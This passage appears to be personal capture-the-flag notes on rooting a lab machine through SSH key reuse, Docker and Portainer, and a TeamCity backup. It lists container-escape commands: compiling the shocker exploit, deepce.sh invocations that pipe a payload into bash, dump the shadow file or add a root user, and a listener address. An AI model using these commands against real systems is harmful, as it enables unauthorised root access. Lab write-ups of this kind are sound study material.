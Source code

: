 Compile from a specific .so library; from Kinkle's asnwer to https://www.linuxquestions.org/questions/linux-software-2/gcc-link-to-a-different-libc-file-804759/
```bash
gcc -s libc-2.31.so shocker.c -o shocker
```

![](noshockerdockerexploit.png)

- mknod: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_mknod
- None of my ideas the below are possible as socket is not exploitable
	- `./deepce.sh --no-enumeration -e SOCK -l -i 10.10.10.10 -p 8443`
	- `./deepce.sh --no-enumeration -e SOCK -l -i 10.10.10.10 -p 8443` & `socat` relay
	- `./deepce.sh --no-enumeration --exploit SOCK -cmd "$base46 | bash"` - try first
	- `./deepce.sh --no-enumeration --exploit SOCK --shadow`
	-  `./deepce.sh --no-enumeration --exploit SOCK --username r00t --password r00t`
 
 Private Keys for John, which I forgot to take a screenshot of, but remembered, but it the teamcity id_rsa on the server was not the one I saw John have to that may have been patched

![](findingidrsa.png)

![](idrsa.png)

![](footholdwithjohn.png)

Managing ssh keys is rough, but reuse is bad.

Because there is docker on the system we can just make our own container as a bridge to root though the use of a privileged container, but we are not in the docker group.

![](portaineradministrationhostname.png)

![](moreportainer.png)

John to Matthew or a Johns password for `sudo -l `
- check configs - none

Portainer 2.19.4 does not have immediately dorkable exploits 
- https://docs.portainer.io 
- Where is the portainer database?

Portainer directory:
- Docker, Kubectl 

![](kube.png)

I was way too far ahead I got hint from the team that their is a backup file on the teamcity vhost

![](getthebackup.png)

![](backupreport.png)

```
mkdir teamcity-backup
mv $backup.zip teamcity-backup/
chmod -R +r teamcity-backup
cd teamcity-backup/ && unzip  $backup.zip 
```
